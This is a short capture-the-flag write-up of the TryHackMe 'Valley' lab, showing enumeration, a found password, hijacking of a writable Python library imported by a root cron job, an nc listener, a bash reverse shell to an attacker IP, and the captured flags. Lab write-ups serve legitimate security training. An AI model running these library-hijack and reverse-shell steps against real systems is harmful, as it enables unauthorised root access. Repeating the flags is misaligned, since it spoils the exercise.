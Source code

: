 [TryHackMe "Valley" Writeup](https://youtu.be/Dbu6HI5JRnU)

http://10.10.132.96/static/00
dev notes from valleyDev:
-add wedding photo examples
-redo the editing on #4
-remove /dev1243224123123
-check for SIEM alerts

http://10.10.132.96/dev1243224123123/


```
valleyDev@valley:~$ cat user.txt 
THM{k@l1_1n_th3_v@lley}
```

![[Pasted image 20230527183730.png]]

![[Pasted image 20230527183934.png]]

```
$cat /etc/passwd |grep -E sh$
```

```
valley:liberty123
```

```
find / -group valleyAdmin -ls 2>/dev/null
```

![[Pasted image 20230527192107.png]]

```
cat /etc/crontab
```
![[Pasted image 20230527192600.png]]

```
valley@valley:~$ find / -group valleyAdmin -ls 2>/dev/null
   263787     20 drwxrwxr-x  30 root     valleyAdmin    20480 Mar 20 07:48 /usr/lib/python3.8
   263097     20 -rwxrwxr-x   1 root     valleyAdmin    20382 Mar 13 03:26 /usr/lib/python3.8/base64.py
valley@valley:~$ 
```

```
python3 /photos/script/photosEncrypt.py
```
![[Pasted image 20230527192751.png]]

```
#!/usr/bin/python3
import base64
for i in range(1,7):
# specify the path to the image file you want to encode
        image_path = "/photos/p" + str(i) + ".jpg"

# open the image file and read its contents
        with open(image_path, "rb") as image_file:
          image_data = image_file.read()

# encode the image data in Base64 format
        encoded_image_data = base64.b64encode(image_data)

# specify the path to the output file
        output_path = "/photos/photoVault/p" + str(i) + ".enc"

# write the Base64-encoded image data to the output file
        with open(output_path, "wb") as output_file:
          output_file.write(encoded_image_data)
```

```
nano /usr/lib/python3.8/base64.py
```

```
import os

os.system('ping -c 2 10.17.44.152')
```

![[Pasted image 20230527193831.png]]

```
tcpdump -i tun0 icmp
```

![[Pasted image 20230527194252.png]]

```
nc -vnlp 9001
```

```
/bin/bash -c \'bash -i >& /dev/tcp/10.17.44.152/9001 0>&1\'
```
![[Pasted image 20230527194652.png]]

```
THM{v@lley_0f_th3_sh@d0w_0f_pr1v3sc}
```


![[Pasted image 20230527195025.png]]

